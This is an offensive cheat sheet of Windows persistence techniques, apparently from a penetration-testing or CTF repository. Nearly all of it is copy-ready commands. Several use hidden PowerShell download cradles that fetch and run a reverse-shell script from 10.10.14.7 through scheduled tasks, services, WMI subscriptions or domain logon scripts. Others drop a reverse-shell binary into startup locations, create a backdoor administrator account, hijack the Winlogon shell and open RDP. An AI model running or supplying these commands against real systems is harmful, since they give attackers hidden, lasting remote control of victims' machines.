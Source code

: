 #  Windows Persistence Payloads

### 1\. **Scheduled Task (schtasks)**

Runs your payload every boot or every minute:

`schtasks /create /sc onlogon /tn backdoor /tr "powershell -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.7/rev.ps1')"`

_Why:_ Auto-executes on logon.

* * *

### 2\. **Startup Folder Drop**

Anything in the Startup folder runs on login:

`copy revshell.exe "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\revshell.exe"`

_Why:_ Guaranteed execution whenever that user logs in.

* * *

### 3\. **Registry Run Key**

Create a run key for persistence:

`reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /t REG_SZ /d "C:\Users\Public\revshell.exe"`

_Why:_ Runs every time the user logs in.

* * *

### 4\. **Service Hijack**

If you can create or modify services:

`sc create backdoor binPath= "C:\Windows\System32\cmd.exe /c powershell -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.7/rev.ps1')" start= auto sc start backdoor`

_Why:_ Service runs as SYSTEM on boot.

* * *

### 5\. **WMI Event Subscription**

Persistent reverse shell on certain triggers:

`$filter=Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments @{     Name='backdoor'; EventNamespace='root\cimv2'; QueryLanguage='WQL';     Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'" } $consumer=Set-WmiInstance -Namespace root\subscription -Class CommandLineEventConsumer -Arguments @{     Name='payload'; CommandLineTemplate='powershell -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.7/rev.ps1")' } Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments @{     Filter=$filter; Consumer=$consumer }`

_Why:_ Survives reboots, stealthy, auto-triggers.

* * *

### 6\. **DLL Hijacking**

If a service loads a missing DLL from a writable path:

`# Compile your own malicious DLL and drop it where the service expects it.`

_Why:_ Service loads your DLL as SYSTEM.

* * *

### 7\. **Net User Backdoor**

If you can add users:

`net user hax0r P@ssw0rd! /add net localgroup administrators hax0r /add`

_Why:_ Persistent access via new admin account.

* * *

### 8\. **Registry Shell Hijack**

Change default shell to cmd or your backdoor:

`reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /t REG_SZ /d "cmd.exe" /f`

_Why:_ Replaces explorer.exe, spawns your payload at login.

* * *

### 9\. **Backdoored RDP**

Enable RDP and add firewall rules:

`reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f netsh advfirewall firewall add rule name="RDP" protocol=TCP dir=in localport=3389 action=allow`

_Why:_ Lets you reconnect via RDP.

* * *

### 10\. **Backdoored GPO / Logon Scripts** (if in domain)

Abuse logon scripts via Group Policy:

`echo "powershell -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.7/rev.ps1')" >> \\domaincontroller\SYSVOL\domain\scripts\logon.bat`

_Why:_ All users run this on logon (domain-wide persistence).

* * *

 *Quick Summary**

-   **Linux persistence**: cron, systemd, rc.local, .bashrc, PATH hijack.
-   **Windows persistence**: scheduled tasks, startup folder, registry run keys, services, WMI events.
